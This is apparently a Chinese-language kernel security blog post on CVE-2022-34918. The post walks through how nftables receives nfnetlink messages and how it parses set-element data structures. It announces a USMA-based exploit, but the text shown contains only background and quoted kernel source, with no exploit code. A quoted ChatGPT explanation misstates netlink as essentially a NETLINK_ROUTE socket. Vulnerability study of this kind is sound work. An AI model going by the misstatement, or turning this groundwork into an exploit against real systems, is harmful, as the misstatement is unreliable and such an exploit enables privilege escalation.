


CVE-2022-34918
这篇文章详述了 netfilter 在 sock 层与用户态沟通的实现以及 nftables 中与 set 相关的几个重要数据结构 nlattr nft_set_ext nft_set_ext_tmpl nft_set 的操作。并在此基础上分析了 CVE-2022-34918 漏洞的成因，并使用 USMA 进行利用。
Table of Contents
1. netfilter/iptables/nftables
这里简述一下 netfilter 和 iptables 和 nftables 之间的关系，我对网络的了解甚少，所以在看代码的时候三者的关系给了我不少困扰。
netfilter是内核中的软件框架，用于网络操作。它提供了许多与数据包过滤，网络地址转换（NAT, Network Address Translation）和端口转发相关的操作。nftables是内核中的一个子系统，提供了对数据包、帧、报的过滤和分类。旨在取代netfilter的iptables部分。他的用户态管理工具为nft。iptables是一个用户态程序，可以让系统管理员来配置 ip 数据包的过滤规则。通过一个netfilter模块实现。
如上可以看出， nft 和 iptables 是同类型工具，用于用户的配置。 nftables 和 iptables 的内核模块同类型，是 nft 和 iptables 这样的工具的“背后的引擎”。他们都是 netfilter 的子系统。而 netfilter 是一个内核的网络软件框架，提供了与网络操作相关的许多接口。
2. nfnetlink in sock 简单分析
内核版本 linux v5.11.14 。
上面提到了 nftables 是 netfilter 的一个子系统，与之类似的还有一些别的子系统，这些子系统都是通过收发 socket 数据包来实现配置的。这些 socket 被称为 (nf)netlink 。
chatgpt 告诉了我 netlink 的详细定义
当 Linux 内核需要与用户空间进行通信时，通常会使用一种称为 Netlink 的机制。Netlink 提供了一种套接字（socket）编程接口，允许内核与用户空间之间传输消息。在 Linux 系统中，Netlink 主要用于内核与用户空间之间的通信，包括传递系统状态信息、事件通知等。
Netlink socket 本质上是一种类型为 NETLINK_ROUTE 的套接字。使用 Netlink socket，用户空间可以发送 Netlink 消息到内核，并从内核接收 Netlink 消息。内核使用 Netlink socket 向用户空间发送通知和事件，例如网络接口状态更改、路由更改、IPsec 安全事件等。Netlink 消息的格式比较简单，由 Netlink 头和 Netlink 负载组成。Netlink 头包括了消息的类型、长度、标志等信息，而 Netlink 负载则包含了具体的消息内容。
在 Linux 内核中，Netlink socket 可以使用函数 netlink_kernel_create() 和 netlink_unicast() 创建和使用。netlink_kernel_create() 用于创建一个内核 Netlink socket，用于向用户空间发送通知和事件。netlink_unicast() 用于将消息发送到指定的 Netlink socket。
在 nftables 中，Netlink socket 用于与用户空间交互，包括配置规则集、通知用户态事件等。nftables 通过 Netlink socket 向内核发送请求，并通过 Netlink socket 接收内核的响应。nftables 的规则集也是通过 Netlink socket 与内核进行通信的。用户空间的 nftables 工具可以使用 Netlink socket 直接操作内核中的规则集。此外，nftables 还可以向用户空间发送通知和事件，以便用户空间的应用程序获取相关信息。
总之，Netlink socket 是 Linux 内核与用户空间之间通信的重要机制，nftables 通过 Netlink socket 与用户空间交互，实现了对内核中规则集的操作和事件的通知。
也就是说 netlink 是一种套接字类型，用于和内核中的网络系统沟通。而 nfnetlink 就是专门为了各种 netfilter 的子系统实现的一种套接字（nf 就指代 netfilter），向这种套接字发送消息，套接字就会自动把配置数据转发到对应的子系统
也就是说，对于各种类型的 netfilter 子系统的配置，全部通过 nfnetlink 向这种套接字收发数据包完成。
2.1. 初始化
对于他的初始化，由 nfnetlink_net_init 实现
static int __net_init nfnetlink_net_init(struct net *net) { struct sock *nfnl; struct netlink_kernel_cfg cfg = { .groups = NFNLGRP_MAX, .input = nfnetlink_rcv, #ifdef CONFIG_MODULES .bind = nfnetlink_bind, #endif }; nfnl = netlink_kernel_create(net, NETLINK_NETFILTER, &cfg); if (!nfnl) return -ENOMEM; net->nfnl_stash = nfnl; rcu_assign_pointer(net->nfnl, nfnl); return 0; }
这个函数主要是通过 netlink_kernel_create 函数创建了一个 sock ，并且把这个 sock 提供给了要被初始化的 net 。同时还注册了一组回调函数（即虚表结构体 cfg ）。
2.2. 用户态向内核请求流程
当用户需要进行配置规则集等操作时，就需要通过 netlink 向内核态发起请求。由于所有的子系统共用一个 nfnetlink ，所以在传入时要指定子系统的 id 和请求的操作的 id ，在 sock 这一层，主要做的就是根据这两个 id 选出合适的函数进行调用以及提取出数据传入给该函数。
由于这是一个向 socket 写的过程，所以流程的开始就是一些 general 的 socket 处理函数，根据 netlink 的 socket 类型，最后会通过调用初始化时注册的 netlink_kernel_cfg.input 函数来处理用户的输入。
static void nfnetlink_rcv(struct sk_buff *skb) { struct nlmsghdr *nlh = nlmsg_hdr(skb); if (skb->len < NLMSG_HDRLEN || nlh->nlmsg_len < NLMSG_HDRLEN || skb->len < nlh->nlmsg_len) return; if (!netlink_net_capable(skb, CAP_NET_ADMIN)) { netlink_ack(skb, nlh, -EPERM, NULL); return; } if (nlh->nlmsg_type == NFNL_MSG_BATCH_BEGIN) nfnetlink_rcv_skb_batch(skb, nlh); else netlink_rcv_skb(skb, nfnetlink_rcv_msg); }
这个函数主要是做一些检查，包括数据包的合法性检查和权限检查（操作 nftables 需要 CPA_NET_ADMIN 权限）。接下来根据 nlmsg_type 会调用两个不同的函数来处理。这里我们看 nfnetlink_rcv_skb_batch 函数
static void nfnetlink_rcv_skb_batch(struct sk_buff *skb, struct nlmsghdr *nlh) { int min_len = nlmsg_total_size(sizeof(struct nfgenmsg)); struct nlattr *attr = (void *)nlh + min_len; struct nlattr *cda[NFNL_BATCH_MAX + 1]; int attrlen = nlh->nlmsg_len - min_len; struct nfgenmsg *nfgenmsg; int msglen, err; u32 gen_id = 0; u16 res_id; msglen = NLMSG_ALIGN(nlh->nlmsg_len); if (msglen > skb->len) msglen = skb->len; if (skb->len < NLMSG_HDRLEN + sizeof(struct nfgenmsg)) return; err = nla_parse_deprecated(cda, NFNL_BATCH_MAX, attr, attrlen, nfnl_batch_policy, NULL); if (err < 0) { netlink_ack(skb, nlh, err, NULL); return; } if (cda[NFNL_BATCH_GENID]) gen_id = ntohl(nla_get_be32(cda[NFNL_BATCH_GENID])); nfgenmsg = nlmsg_data(nlh); skb_pull(skb, msglen); /* Work around old nft using host byte order */ if (nfgenmsg->res_id == NFNL_SUBSYS_NFTABLES) res_id = NFNL_SUBSYS_NFTABLES; else res_id = ntohs(nfgenmsg->res_id); nfnetlink_rcv_batch(skb, nlh, res_id, gen_id); }
这个函数会做一些预处理工作，然后调用 nfnetlink_rcv_batch 这个函数，原型为
static void nfnetlink_rcv_batch(struct sk_buff *skb, struct nlmsghdr *nlh, u16 subsys_id, u32 genid)
这里的 subsys_id 取值为下面的一些宏定义的值
/* No enum here, otherwise __stringify() trick of MODULE_ALIAS_NFNL_SUBSYS() * won't work anymore */ #define NFNL_SUBSYS_NONE 0 #define NFNL_SUBSYS_CTNETLINK 1 #define NFNL_SUBSYS_CTNETLINK_EXP 2 #define NFNL_SUBSYS_QUEUE 3 #define NFNL_SUBSYS_ULOG 4 #define NFNL_SUBSYS_OSF 5 #define NFNL_SUBSYS_IPSET 6 #define NFNL_SUBSYS_ACCT 7 #define NFNL_SUBSYS_CTNETLINK_TIMEOUT 8 #define NFNL_SUBSYS_CTHELPER 9 #define NFNL_SUBSYS_NFTABLES 10 #define NFNL_SUBSYS_NFT_COMPAT 11 #define NFNL_SUBSYS_COUNT 12
对应 nftables 的就是 #define NFNL_SUBSYS_NFTABLES 10 了。
该函数主要做的是获取用户传入的数据所请求的子系统（即调用时传入的 res_id 所代表的子系统）和对应的操作。同时从 netlink 中取出有效载荷，传递给操作的处理函数。
static void nfnetlink_rcv_batch(struct sk_buff *skb, struct nlmsghdr *nlh, u16 subsys_id, u32 genid) { // ... const struct nfnetlink_subsystem *ss; // <- 子系统 const struct nfnl_callback *nc; // <- 操作（的回调函数结构体） // ... if (subsys_id >= NFNL_SUBSYS_COUNT) // <- 检查 subsys_id 的合法性 return netlink_ack(skb, nlh, -EINVAL, NULL); // ... ss = nfnl_dereference_protected(subsys_id); // <- 获取 subsys_id 对于的子系统结构体 // ... while (skb->len >= nlmsg_total_size(0)) { // ... nc = nfnetlink_find_client(type, ss); // <- 获取消息的目标对象 // ... if (nc->call_batch) { err = nc->call_batch(net, net->nfnl, skb, nlh, // <- 调用其处理函数 (const struct nlattr **)cda, &extack); } // ... } // ... }
2.2.1. netfilter 子系统
上面说的子系统，如 nftables 子系统，在内核中的表现就是一个模块，而在 nfnetlink 这一层的表现就是一个结构体，这个结构体由模块在 init 的时候注册到 nfnetlink 的一张 table 中，可以使用 subsys_id 寻址。结构体定义如下：
struct nfnetlink_subsystem { const char *name; __u8 subsys_id; /* nfnetlink subsystem ID */ __u8 cb_count; /* number of callbacks */ const struct nfnl_callback *cb; /* callback for individual types */ struct module *owner; int (*commit)(struct net *net, struct sk_buff *skb); int (*abort)(struct net *net, struct sk_buff *skb, enum nfnl_abort_action action); void (*cleanup)(struct net *net); bool (*valid_genid)(struct net *net, u32 genid); };
每个子系统通过 cb 字段提供对各种操作的回调函数来实现对子系统的模块的调用，注意这个字段指向的是一个数组，数组的每个元素都是一个 nfnl_callback 结构体，定义如下：
struct nfnl_callback { int (*call)(struct net *net, struct sock *nl, struct sk_buff *skb, const struct nlmsghdr *nlh, const struct nlattr * const cda[], struct netlink_ext_ack *extack); int (*call_rcu)(struct net *net, struct sock *nl, struct sk_buff *skb, const struct nlmsghdr *nlh, const struct nlattr * const cda[], struct netlink_ext_ack *extack); int (*call_batch)(struct net *net, struct sock *nl, struct sk_buff *skb, const struct nlmsghdr *nlh, const struct nlattr * const cda[], struct netlink_ext_ack *extack); const struct nla_policy *policy; /* netlink attribute policy */ const u_int16_t attr_count; /* number of nlattr's */ };
可见对每一种操作，在不同情况下，可以选用三种不同的调用方式。如此内核就可以根据用户的请求，调用不同的回调函数进行处理（后文会分析 nftables 注册的回调，来看看有哪些操作）。
用户会传入 subsys_id 告知内核要操作什么子系统，通过 nfnl_dereference_protected 宏函数就可以根据这个 id 找到具体的 nfnetlink_subsystem 结构体。
通过 nfnl_dereference_protected 搜索
#define nfnl_dereference_protected(id) \ rcu_dereference_protected(table[(id)].subsys, \ lockdep_nfnl_is_held((id)))
可见所有的结构体都聚合在了一个 table 变量中
static struct { struct mutex mutex; const struct nfnetlink_subsystem __rcu *subsys; } table[NFNL_SUBSYS_COUNT];
这个 table 存储了所有类型的 netfilter 子系统定义。通过 nfnetlink_subsys_register 和 nfnetlink_subsys_unregister 就可以向表中注册和注销子系统。我们感兴趣的是 nftables ，这个模块的注册过程中就会向 nfnetlink 注册子系统
static int __init nf_tables_module_init(void) { // ... /* must be last */ err = nfnetlink_subsys_register(&nf_tables_subsys); if (err < 0) goto err6; // ... }
nftables 子系统
由此我们可以找到 nftables 子系统的定义，如下
static const struct nfnetlink_subsystem nf_tables_subsys = { .name = "nf_tables", .subsys_id = NFNL_SUBSYS_NFTABLES, .cb_count = NFT_MSG_MAX, .cb = nf_tables_cb, .commit = nf_tables_commit, .abort = nf_tables_abort, .cleanup = nf_tables_cleanup, .valid_genid = nf_tables_valid_genid, .owner = THIS_MODULE, };
这里面的 nf_tables_cb 存储了 nftables 模块的各种可行操作。
static const struct nfnl_callback nf_tables_cb[NFT_MSG_MAX] = { [NFT_MSG_NEWTABLE] = { .call_batch = nf_tables_newtable, .attr_count = NFTA_TABLE_MAX, .policy = nft_table_policy, }, [NFT_MSG_GETTABLE] = { .call_rcu = nf_tables_gettable, .attr_count = NFTA_TABLE_MAX, .policy = nft_table_policy, }, [NFT_MSG_DELTABLE] = { .call_batch = nf_tables_deltable, .attr_count = NFTA_TABLE_MAX, .policy = nft_table_policy, }, [NFT_MSG_NEWCHAIN] = { .call_batch = nf_tables_newchain, .attr_count = NFTA_CHAIN_MAX, .policy = nft_chain_policy, }, // ... }
nftables 支持的操作很多，所以这里只列出其中的几个。从上面的数组索引就可以看出它支持对 table 的增删查功能。
支持的所有功能是一组枚举：
enum nf_tables_msg_types { NFT_MSG_NEWTABLE, NFT_MSG_GETTABLE, NFT_MSG_DELTABLE, NFT_MSG_NEWCHAIN, NFT_MSG_GETCHAIN, NFT_MSG_DELCHAIN, NFT_MSG_NEWRULE, NFT_MSG_GETRULE, NFT_MSG_DELRULE, NFT_MSG_NEWSET, NFT_MSG_GETSET, NFT_MSG_DELSET, NFT_MSG_NEWSETELEM, NFT_MSG_GETSETELEM, NFT_MSG_DELSETELEM, NFT_MSG_NEWGEN, NFT_MSG_GETGEN, NFT_MSG_TRACE, NFT_MSG_NEWOBJ, NFT_MSG_GETOBJ, NFT_MSG_DELOBJ, NFT_MSG_GETOBJ_RESET, NFT_MSG_NEWFLOWTABLE, NFT_MSG_GETFLOWTABLE, NFT_MSG_DELFLOWTABLE, NFT_MSG_MAX, }
2.2.2. 操作调用
通过上面的操作，我们成功找到了想要调用的子系统的结构体，接下来就是查找用户想要的操作的回调函数了，这是通过 nfnetlink_find_client 实现的
static inline const struct nfnl_callback * nfnetlink_find_client(u16 type, const struct nfnetlink_subsystem *ss) { u8 cb_id = NFNL_MSG_TYPE(type); if (cb_id >= ss->cb_count) return NULL; return &ss->cb[cb_id]; }
type 由用户传入，在这里面，保存了 subsys_id 和 cb_id 两个 id ，通过两个宏即可提取出二者
#define NFNL_SUBSYS_ID(x) ((x & 0xff00) >> 8) #define NFNL_MSG_TYPE(x) (x & 0x00ff)
获取了 cb_id 后就可以从子系统注册的回调函数数组中取出函数了。经过数据处理和一些合法性检查就可以调用回调了。
// ... err = nla_parse_deprecated(cda, ss->cb[cb_id].attr_count, attr, attrlen, ss->cb[cb_id].policy, NULL); if (err < 0) goto ack; if (nc->call_batch) { err = nc->call_batch(net, net->nfnl, skb, nlh, (const struct nlattr **)cda, &extack); } // ...
3. nftables 中的一些结构体
3.1. nlattr
nlattr 是 netfilter attribute 的意思。是 netlink 中的一个“泛型”结构体，可以用来表示各种各样的数据类型
struct nlattr { __u16 nla_len; __u16 nla_type; };
它由上面结构体中定义的 header 加后部的 payload 组成（未在结构体中定义）

nlattr 的 header 通过 NLA_HDRLEN 对齐，和 payload 一样最后都由 NLA_ALIGN 宏对齐，都是 4 字节对齐
#define NLA_ALIGNTO 4 #define NLA_ALIGN(len) (((len) + NLA_ALIGNTO - 1) & ~(NLA_ALIGNTO - 1)) #define NLA_HDRLEN ((int) NLA_ALIGN(sizeof(struct nlattr)))
上面说 nlattr 可以用来表示各种数据类型，这是通过 nla_type 字段实现的，源码中的注释如下
/* * nla_type (16 bits) * +---+---+-------------------------------+ * | N | O | Attribute Type | * +---+---+-------------------------------+ * N := Carries nested attributes * O := Payload stored in network byte order * * Note: The N and O flag are mutually exclusive. */
有相应的 mask 来辅助取出和设置这些字段
#define NLA_F_NESTED (1 << 15) #define NLA_F_NET_BYTEORDER (1 << 14) #define NLA_TYPE_MASK ~(NLA_F_NESTED | NLA_F_NET_BYTEORDER)
内核提供了一些辅助函数来操作 nlattr
/** * nla_type - attribute type * @nla: netlink attribute */ static inline int nla_type(const struct nlattr *nla) { return nla->nla_type & NLA_TYPE_MASK; } /** * nla_data - head of payload * @nla: netlink attribute */ static inline void *nla_data(const struct nlattr *nla) { return (char *) nla + NLA_HDRLEN; } /** * nla_len - length of payload * @nla: netlink attribute */ static inline int nla_len(const struct nlattr *nla) { return nla->nla_len - NLA_HDRLEN; }
nlattr 可以说是 nftables 中许多复杂数据结构的“序列化表示”，可以用于网络传输，而这些数据类型在内核中的表示则可能多种多样。接下来我们以 nft_set_add_elem 这个函数中对 nft_data_init 调用为例来看 nlattr 是如何一步步被转成 nft_data 的。
3.1.1. parse of the "stream of attribute"
首先是对 netlink 数据包的解析，数据包中的数据被称为“属性流”（stream of attribute），它是一个 nlattr ，但是是嵌套的——即其数据部分存储的还是一串 nlattr ，也就是一些“序列化”的 nlattr （这是我编的，其实只是每个 nlattr 拼在一起组成一个 data 部分），此函数中使用 nla_parse_nested_deprecated 函数来解析属性流，这个函数将要被 parse 的 nlattr 的 data 部分取出并指定合法的 __nla_type 范围
/** * nla_parse_nested_deprecated - parse nested attributes * @tb: destination array with maxtype+1 elements * @maxtype: maximum attribute type to be expected * @nla: attribute containing the nested attributes * @policy: validation policy * @extack: extended ACK report struct * * See nla_parse_deprecated() */ static inline int nla_parse_nested_deprecated(struct nlattr *tb[], int maxtype, const struct nlattr *nla, const struct nla_policy *policy, struct netlink_ext_ack *extack) { return __nla_parse(tb, maxtype, nla_data(nla), nla_len(nla), policy, NL_VALIDATE_LIBERAL, extack); }
/** * __nla_parse - Parse a stream of attributes into a tb buffer * @tb: destination array with maxtype+1 elements * @maxtype: maximum attribute type to be expected * @head: head of attribute stream * @len: length of attribute stream * @policy: validation policy * @validate: validation strictness * @extack: extended ACK pointer * * Parses a stream of attributes and stores a pointer to each attribute in * the tb array accessible via the attribute type. * Validation is controlled by the @validate parameter. * * Returns 0 on success or a negative error code. */ int __nla_parse(struct nlattr **tb, int maxtype, const struct nlattr *head, int len, const struct nla_policy *policy, unsigned int validate, struct netlink_ext_ack *extack) { return __nla_validate_parse(head, len, maxtype, policy, validate, extack, tb, 0); } EXPORT_SYMBOL(__nla_parse);
__nla_parse 又是 __nla_validate_parse 的 wrapper 。抛来错误处理不谈，这个函数的实现很简单，大致如下
static int __nla_validate_parse(const struct nlattr *head, int len, int maxtype, const struct nla_policy *policy, unsigned int validate, struct netlink_ext_ack *extack, struct nlattr **tb, unsigned int depth) { const struct nlattr *nla; int rem; // ... if (tb) memset(tb, 0, sizeof(struct nlattr *) * (maxtype + 1)); nla_for_each_attr(nla, head, len, rem) { u16 type = nla_type(nla); if (type == 0 || type > maxtype) { if (validate & NL_VALIDATE_MAXTYPE) { NL_SET_ERR_MSG_ATTR(extack, nla, "Unknown attribute type"); return -EINVAL; } continue; } // ... if (tb) tb[type] = (struct nlattr *)nla; } // ...
这里就是遍历传入属性流中的每个 nlattr 并根据 type 把它放到传入的 tb 数组中的相应位置。使用 nla_for_each_attr 宏可以遍历属性流
/** * nla_for_each_attr - iterate over a stream of attributes * @pos: loop counter, set to current attribute * @head: head of attribute stream * @len: length of attribute stream * @rem: initialized to len, holds bytes currently remaining in stream */ #define nla_for_each_attr(pos, head, len, rem) \ for (pos = head, rem = len; \ nla_ok(pos, rem); \ pos = nla_next(pos, &(rem))) /** * nla_ok - check if the netlink attribute fits into the remaining bytes * @nla: netlink attribute * @remaining: number of bytes remaining in attribute stream */ static inline int nla_ok(const struct nlattr *nla, int remaining) { return remaining >= (int) sizeof(*nla) && nla->nla_len >= sizeof(*nla) && nla->nla_len <= remaining; } /** * nla_next - next netlink attribute in attribute stream * @nla: netlink attribute * @remaining: number of bytes remaining in attribute stream * * Returns the next netlink attribute in the attribute stream and * decrements remaining by the size of the current attribute. */ static inline struct nlattr *nla_next(const struct nlattr *nla, int *remaining) { unsigned int totlen = NLA_ALIGN(nla->nla_len); *remaining -= totlen; return (struct nlattr *) ((char *) nla + totlen); }
根据上面的函数我们可以分析出属性流的结构（其实是很“朴素”的）

上面说的“泛型”的实现（即 nlattr 可以通过 __nal_type 来表达自己的类型），其实是通过处理函数和调用者提前约定实现的，比如处理向 set 中添加元素的 nft_add_set_elem 函数，就和请求者约定了 nft_set_elem_attributes 这个枚举来表示各种属性
enum nft_set_elem_attributes { NFTA_SET_ELEM_UNSPEC, NFTA_SET_ELEM_KEY, NFTA_SET_ELEM_DATA, NFTA_SET_ELEM_FLAGS, NFTA_SET_ELEM_TIMEOUT, NFTA_SET_ELEM_EXPIRATION, NFTA_SET_ELEM_USERDATA, NFTA_SET_ELEM_EXPR, NFTA_SET_ELEM_PAD, NFTA_SET_ELEM_OBJREF, NFTA_SET_ELEM_KEY_END, NFTA_SET_ELEM_EXPRESSIONS, __NFTA_SET_ELEM_MAX }; #define NFTA_SET_ELEM_MAX (__NFTA_SET_ELEM_MAX - 1)
请求者发包时将各种属性序列化到一个属性流中，通过 netlink socket 发送，内核就可以反序列化出各种属性了。换句话说，内核会通过 enum 或者宏定义等方式和请求者约定传入的属性的 typeid ，这样两方就能知道对方传入的是什么类型的数据了。
3.1.2. parse of the nftables data attribute
出于 nlattr 的灵活性，对于单个 nlattr 解析自然是和实现者完全相关的，我们以 nftables 对他的 data 类型属性的解析来看看是如何操作的。这个是通过 nft_data_init 实现的：
在 nft_add_set_elem 中，对他的调用链，有如下的一条，我们就以此为例
if (nla[NFTA_SET_ELEM_DATA] != NULL) { err = nft_setelem_parse_data(ctx, set, &desc, &elem.data.val, nla[NFTA_SET_ELEM_DATA]); if (err < 0) goto err_parse_key_end; // ...
static int nft_setelem_parse_data(struct nft_ctx *ctx, struct nft_set *set, struct nft_data_desc *desc, struct nft_data *data, struct nlattr *attr) { int err; err = nft_data_init(ctx, data, NFT_DATA_VALUE_MAXLEN, desc, attr); // ...
/** * nft_data_init - parse nf_tables data netlink attributes * * @ctx: context of the expression using the data * @data: destination struct nft_data * @size: maximum data length * @desc: data description * @nla: netlink attribute containing data * * Parse the netlink data attributes and initialize a struct nft_data. * The type and length of data are returned in the data description. * * The caller can indicate that it only wants to accept data of type * NFT_DATA_VALUE by passing NULL for the ctx argument. */ int nft_data_init(const struct nft_ctx *ctx, struct nft_data *data, unsigned int size, struct nft_data_desc *desc, const struct nlattr *nla) { struct nlattr *tb[NFTA_DATA_MAX + 1]; int err; err = nla_parse_nested_deprecated(tb, NFTA_DATA_MAX, nla, nft_data_policy, NULL); if (err < 0) return err; if (tb[NFTA_DATA_VALUE]) return nft_value_init(ctx, data, size, desc, tb[NFTA_DATA_VALUE]); if (tb[NFTA_DATA_VERDICT] && ctx != NULL) return nft_verdict_init(ctx, data, desc, tb[NFTA_DATA_VERDICT]); return -EINVAL; } EXPORT_SYMBOL_GPL(nft_data_init);
这个函数处理的 nlattr 是嵌套的，在 data 部分可以存储一个 nlattr ，如下的 enum 中定义了可选的类型：
/** * enum nft_data_attributes - nf_tables data netlink attributes * * @NFTA_DATA_VALUE: generic data (NLA_BINARY) * @NFTA_DATA_VERDICT: nf_tables verdict (NLA_NESTED: nft_verdict_attributes) */ enum nft_data_attributes { NFTA_DATA_UNSPEC, NFTA_DATA_VALUE, NFTA_DATA_VERDICT, __NFTA_DATA_MAX }; #define NFTA_DATA_MAX (__NFTA_DATA_MAX - 1)
nft_data_init 首先用 nla_parse_nested_deprecated 取出嵌套的 nlattr ，并且储存在 tb 数组中，这样就可以根据类型选择其处理函数，这就类似于一个 switch 的过程（ 如果内核可以不用想太多用 oop 语言这里可能就不会这么绕了吧hhh ）。我们看一下两种处理函数
NFTA_DATA_VALUE
使用 nft_value_init 进行初始化
if (tb[NFTA_DATA_VALUE]) return nft_value_init(ctx, data, size, desc, tb[NFTA_DATA_VALUE]);
static int nft_value_init(const struct nft_ctx *ctx, struct nft_data *data, unsigned int size, struct nft_data_desc *desc, const struct nlattr *nla) { unsigned int len; len = nla_len(nla); // get length of payload if (len == 0) return -EINVAL; if (len > size) return -EOVERFLOW; nla_memcpy(data->data, nla, len); desc->type = NFT_DATA_VALUE; desc->len = len; return 0; }
到这里我们需要看一下 nft_data 和 nft_data_desc 的定义
/** * struct nft_verdict - nf_tables verdict * * @code: nf_tables/netfilter verdict code * @chain: destination chain for NFT_JUMP/NFT_GOTO */ struct nft_verdict { u32 code; struct nft_chain *chain; }; struct nft_data { union { u32 data[4]; struct nft_verdict verdict; }; } __attribute__((aligned(__alignof__(u64))));
struct nft_data_desc { enum nft_data_types type; unsigned int len; };
nft_data_desc 比较简单，是用来描述一个 nft_data 的类型和长度的。 nft_data 则是一个 union ，当存储的是 data 时，就是一个 u32 类型的数组，大小为 16 字节。verdict 在英文中是判决的意思，在 nftables 中用来描述一个规则匹配后的决策结果的数据结构。通过其 code 字段可以表示匹配后是该继续还是丢弃包或是其他操作。 chain 字段则会指向要挑向的目标（如果 verdict code 是跳转指令的话）
可以看到 nft_value_init 的实现比较简单，只需要做一个对数据的拷贝即可，然后更新 data 的 desc （后面就可以进行错误检查等操作）。数据拷贝通过 nla_memcpy 实现，这个就是一个长的部分不拷贝，短了就补 0 的 memcpy 的 wrapper 。
/** * nla_memcpy - Copy a netlink attribute into another memory area * @dest: where to copy to memcpy * @src: netlink attribute to copy from * @count: size of the destination area * * Note: The number of bytes copied is limited by the length of * attribute's payload. memcpy * * Returns the number of bytes copied. */ int nla_memcpy(void *dest, const struct nlattr *src, int count) { int minlen = min_t(int, count, nla_len(src)); memcpy(dest, nla_data(src), minlen); if (count > minlen) memset(dest + minlen, 0, count - minlen); return minlen; } EXPORT_SYMBOL(nla_memcpy);
NFTA_DATA_VERDICT
if (tb[NFTA_DATA_VERDICT] && ctx != NULL) return nft_verdict_init(ctx, data, desc, tb[NFTA_DATA_VERDICT]);
这个类型使用 nft_verdict_init 函数来初始化。相比之下他要复杂一些
static int nft_verdict_init(const struct nft_ctx *ctx, struct nft_data *data, struct nft_data_desc *desc, const struct nlattr *nla) { u8 genmask = nft_genmask_next(ctx->net); struct nlattr *tb[NFTA_VERDICT_MAX + 1]; struct nft_chain *chain; int err; err = nla_parse_nested_deprecated(tb, NFTA_VERDICT_MAX, nla, nft_verdict_policy, NULL); if (err < 0) return err; if (!tb[NFTA_VERDICT_CODE]) return -EINVAL; data->verdict.code = ntohl(nla_get_be32(tb[NFTA_VERDICT_CODE])); switch (data->verdict.code) { default: switch (data->verdict.code & NF_VERDICT_MASK) { case NF_ACCEPT: case NF_DROP: case NF_QUEUE: break; default: return -EINVAL; } fallthrough; case NFT_CONTINUE: case NFT_BREAK: case NFT_RETURN: break; case NFT_JUMP: case NFT_GOTO: if (tb[NFTA_VERDICT_CHAIN]) { chain = nft_chain_lookup(ctx->net, ctx->table, tb[NFTA_VERDICT_CHAIN], genmask); } else if (tb[NFTA_VERDICT_CHAIN_ID]) { chain = nft_chain_lookup_byid(ctx->net, tb[NFTA_VERDICT_CHAIN_ID]); if (IS_ERR(chain)) return PTR_ERR(chain); } else { return -EINVAL; } if (IS_ERR(chain)) return PTR_ERR(chain); if (nft_is_base_chain(chain)) return -EOPNOTSUPP; chain->use++; data->verdict.chain = chain; break; } desc->len = sizeof(data->verdict); desc->type = NFT_DATA_VERDICT; return 0; }
具体如何实现的，这里就不在赘述了，总的就是处理一些特殊的 verdict code 的初始化（比如 NFT_GOTO 和 NFT_JUMP 需要找到目标的 chain 的地址）
3.2. nft_set_ext
/** * struct nft_set_ext - set extensions * * @genmask: generation mask * @offset: offsets of individual extension types * @data: beginning of extension data */ struct nft_set_ext { u8 genmask; u8 offset[NFT_SET_EXT_NUM]; char data[]; };
这是一个 nftables 在内核中用于表示 set 中元素的扩展属性的结构体。总共有这些扩展属性：
/** * enum nft_set_extensions - set extension type IDs * * @NFT_SET_EXT_KEY: element key * @NFT_SET_EXT_KEY_END: upper bound element key, for ranges * @NFT_SET_EXT_DATA: mapping data * @NFT_SET_EXT_FLAGS: element flags * @NFT_SET_EXT_TIMEOUT: element timeout * @NFT_SET_EXT_EXPIRATION: element expiration time * @NFT_SET_EXT_USERDATA: user data associated with the element * @NFT_SET_EXT_EXPRESSIONS: expressions assiciated with the element * @NFT_SET_EXT_OBJREF: stateful object reference associated with element * @NFT_SET_EXT_NUM: number of extension types */ enum nft_set_extensions { NFT_SET_EXT_KEY, NFT_SET_EXT_KEY_END, NFT_SET_EXT_DATA, NFT_SET_EXT_FLAGS, NFT_SET_EXT_TIMEOUT, NFT_SET_EXT_EXPIRATION, NFT_SET_EXT_USERDATA, NFT_SET_EXT_EXPRESSIONS, NFT_SET_EXT_OBJREF, NFT_SET_EXT_NUM };
他的存储方式是对于每个属性，用 offset 数组中的一个项来保存其偏移。然后在 data 数组中存储其具体数据。（nftables 中许多数据结构都是这么存储的）

3.3. nft_set_ext_tmpl
/** * struct nft_set_ext_tmpl - set extension template * * @len: length of extension area * @offset: offsets of individual extension types */ struct nft_set_ext_tmpl { u16 len; u8 offset[NFT_SET_EXT_NUM]; };
这个结构体和上面说的 nft_set_ext 联系紧密，由于 nft_set_ext->data 这个字段是不定长的，而我们不可能在 parse 完所有的属性前就知道 data 的大小，所以无法提前先申请出合适大小的内存空间。所以需要用这个 nft_set_ext_tmpl 先保存下来所有的偏移，并且维护 nft_set_ext 的大小
所以最后 nft_set_ext 可以根据 nft_set_ext_tmpl 的 len 字段来申请合适的空间，这个过程由 nft_set_elem_init 和 nft_set_elem_ext 共同实现
void *nft_set_elem_init(const struct nft_set *set, const struct nft_set_ext_tmpl *tmpl, const u32 *key, const u32 *key_end, const u32 *data, u64 timeout, u64 expiration, gfp_t gfp) { struct nft_set_ext *ext; void *elem; elem = kzalloc(set->ops->elemsize + tmpl->len, gfp); if (elem == NULL) return NULL; ext = nft_set_elem_ext(set, elem); nft_set_ext_init(ext, tmpl); memcpy(nft_set_ext_key(ext), key, set->klen); if (nft_set_ext_exists(ext, NFT_SET_EXT_KEY_END)) memcpy(nft_set_ext_key_end(ext), key_end, set->klen); if (nft_set_ext_exists(ext, NFT_SET_EXT_DATA)) memcpy(nft_set_ext_data(ext), data, set->dlen); if (nft_set_ext_exists(ext, NFT_SET_EXT_EXPIRATION)) { *nft_set_ext_expiration(ext) = get_jiffies_64() + expiration; if (expiration == 0) *nft_set_ext_expiration(ext) += timeout; } if (nft_set_ext_exists(ext, NFT_SET_EXT_TIMEOUT)) *nft_set_ext_timeout(ext) = timeout; return elem; }
static inline struct nft_set_ext *nft_set_elem_ext(const struct nft_set *set, void *elem) { return elem + set->ops->elemsize; }
